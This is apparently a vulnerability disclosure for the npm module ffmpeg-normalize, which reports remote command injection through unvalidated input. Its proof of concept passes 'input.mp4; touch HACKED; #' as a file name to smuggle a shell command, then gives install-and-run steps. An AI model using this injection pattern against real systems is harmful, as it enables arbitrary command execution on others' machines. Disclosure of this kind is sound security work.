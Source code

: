 # :bug: Description

The `ffmpeg-normalize` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const normalize = require('ffmpeg-normalize');
 
normalize({
    input: 'input.mp4; touch HACKED; #',
    output: 'output.mp4',
    loudness: {
        normalization: 'ebuR128',
        target: {input_i: -23}
    },
    verbose: false
}).then(normalized  => {}).catch(error => {console.log()});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i ffmpeg-normalize # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
